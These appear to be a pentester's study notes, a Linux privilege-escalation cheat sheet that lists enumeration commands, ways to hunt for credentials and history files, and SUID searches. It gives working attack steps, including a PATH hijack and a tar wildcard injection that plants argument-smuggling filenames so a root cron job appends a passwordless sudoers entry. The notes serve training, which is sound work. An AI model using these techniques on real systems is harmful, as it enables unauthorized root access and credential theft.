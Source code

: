 # Linux Priviledges Escalation

## Gather Basic Informaiton

	whoami - what user are we running as
	id - what group does our user belong to
	hostname - what is the server named. can we gather any info from the naming convention
	ifconfig of ip a - what subnet did we land in, does the host have additional NICs in other subnets
	sudo -l - can our user run anything with sudo (as another user as root) without needing a password? This can sometimes be the easiest win and we can do something like sudo su and drop right into a root shell.
		if we can run a binary with sudo check which can be exploit in https://gtfobins.github.io/

## Gather More Basic Infomation

	cat /etc/os-release - operating system and version
	echo $PATH - check what commands can and are been runned
	env - check any env variable for sensitive information
	uname -a - Get kernel version. Maybe it is a vulnerable kernel
	lscpu - Get information about the host architecture and cpu
	/etc/shells - Get what shells exist on the server. The shell the user is using might be vulnurable
	lsblk - Get information on blocks and devices on the system. An unmounted drive my contain senstive information
	cat /etc/fstab - Get information on blocks and devices on the system. An unmounted drive my contain senstive information
	route - What other networks are available
	arp -a - Check what other hosts the target has been communication with

## Gather More Basic Information

	cat /etc/passwd - check existing users
	cat /etc/group - check existing groups
	cat /etch/hosts
	getnet group <group_name> - check which members belong to an exinsting group
	lastlog - check the last logins in the system
	w - check the current login users

## Enumerate the home directory and history files

Check if the users are stoing significant information and configurations

	cat ./bash_history - Get the commands that have been executed by the user
	history - Get the commands that have been executed by the user (same as cat ./bash_history?)
	find / -type f \( -name *_hist -o -name *_history \) -exec ls -l {} \; 2>/dev/null - find history files that may have been created by services or scripts
	ls -la /etc/cron.daily/ - check the schedule jobs
	find /proc -name cmdline -exec cat {} \; 2>/dev/null | tr " " "\n" - find proc files that can give more information about the system

	Also do a quick check in any weird file in the home directory

## Get all Hidden Files, Directories and temp files

	find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null
	find / -type d -name ".*" -ls 2>/dev/null
	ls -l /tmp /var/tmp /dev/shm

## Services

Check which services are in the system. They may be vulnurable to some exploit

	apt list --installed | tr "/" " " | cut -d" " -f1,3 | sed 's/[0-9]://g' | tee -a installed_pkgs.list - check packages installed
	sudo -V - check sudo version, old versions may have exploits
	for i in $(curl -s https://gtfobins.github.io/ | html2text | cut -d" " -f1 | sed '/^[[:space:]]*$/d');do if grep -q "$i" installed_pkgs.list;then echo "Check GTFO for: $i";fi;done - check which binaries in the system maybe exploited
	find / -type f \( -name *.conf -o -name *.config \) -exec ls -l {} \; 2>/dev/null - check config files for password, etc
	find / -type f -name "*.sh" 2>/dev/null | grep -v "src\|snap\|share" - scripts may have wrong priveledges, and may have other valuable information
	ps aux | grep root - check which services are beeing run by root

## Credential Hunting

When enumerating a system, it is important to note down any credentials. These may be found in configuration files (.conf, .config, .xml, etc.), shell scripts, a user's bash history file, backup (.bak) files, within database files or even in text files.

The /var directory typically contains the web root for whatever web server is running on the host. The web root may contain database credentials or other types of credentials that can be leveraged to further access.
Look for dabases runnings and grep the stored files (possibly also doing a strings command), to try to find the hashed passwords

grep -ri 'password'
grep -ri 'admin'

Check .ssh keys, and ssh known_hosts

	ls ~/.ssh

## Check priveledges

Check files that have setuid for root

	find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

Check for files for the setgroupid

	find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

## Check PATH abuse

If some script is running with sudo and we can change the PATH var, then we can use it to run commands as sudo, for example:

	touch ls
	echo 'echo "PATH ABUSE!!"' > ls
	chmod +x ls
	PATH=.:${PATH}
	export PATH
	echo $PATH

If ls is then called by the root user, or an user with sudo priveleges, we execute commands with those privileges

## Check for Wildcard abuse

If commands are being runned in sudo that contain wildcards like *, we may be able to inject commands that will be run as sudo example:

	a cron with:

	mh dom mon dow command
	*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *

	then in the dir /home/htb-student we do the following commands:

	echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
	echo "" > "--checkpoint-action=exec=sh root.sh"
	echo "" > --checkpoint=1

	the two --checkpoints arguments will be added to the tar * and execute the root.sh script as sudo
	Simple trick behind this technique is that when using shell wildcards, especially asterisk (*), Unix shell will interpret files beginning with hyphen (-) character as command line arguments to executed command/program.

Commands susceptible to this are:

	tar
	chown
	chmod
	rsync
	7z
	zip

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks
https://www.exploit-db.com/papers/33930

## Run linPEAS script

	https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
	
	./linpeas.sh

## Relevante Information

	https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
	https://gtfobins.github.io/